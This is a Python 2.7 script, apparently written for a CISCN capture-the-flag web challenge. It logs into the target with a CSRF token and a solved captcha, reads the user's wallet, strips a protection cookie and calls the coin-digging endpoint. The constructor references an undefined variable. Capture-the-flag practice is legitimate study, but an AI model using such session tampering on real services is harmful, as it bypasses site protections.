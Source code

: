 ```python 2.7
class CoinDigger(WebHelper):
    def __init__(self,host,port,csrfname = '_xsrf',username = 'DXkite',password = 'dxkite'):
        WebHelper.__init__(self,ip,port)
        self.host =host 
        self.port = port
        self.csrfname = csrfname
        self.session = req.session()
        self.wallet = None
        self.username = username
        self.password = password
        self.url = 'http://%s:%s/' % (host, port)
        self.cookie = None
    
    def login(self):
        rs = self.session.get(self.url + 'login')
        html = rs.text
        token = self._get_token(html)
        x,y = self._get_answer(html)
        rs = self.session.post(url=self.url + 'login', data={
            self.csrfname: token,
            "username": self.username,
            "password": self.password,
            "captcha_x": x,
            "captcha_y": y
        })
        try:
            dom = PQ(rs.text)
            error = dom("div.alert.alert-danger")
            error = PQ(error).text().strip()
            if len(error):
                print "[-] Login failed."
                return False
        except:
            pass
        print "[+] Login Success."
        self.wallet = self._get_user_wallet()
        return True
    
    def _get_user_wallet(self):
        res = self.session.get(self.url + 'user')
        dom = PQ(res.text)
        res = dom('.user-wallet').text().strip()
        wallet = re.search('([0-9a-zA-Z]+)$', res).group()
        return wallet

    def dig_coin(self):
        self.cookie = req.utils.dict_from_cookiejar(self.session.cookies)
        self.cookie.pop('__cc_protected','dxkite')
        # print self.cookie
        self.session = req.session()
        req.utils.add_dict_to_cookiejar(self.session.cookies,self.cookie)  
        # print self.session.cookies
        res=self.session.get(self.url + 'ciscn_block/dig/%s' % self.wallet)
        return res

if __name__ == '__main__':
    ip = sys.argv[1]
    port = sys.argv[2]
    csrfname = sys.argv[3]
    name = sys.argv[4]
    pwd = sys.argv[5]
    times = int(sys.argv[6])
    digger=CoinDigger(ip, port, csrfname,name,pwd)
```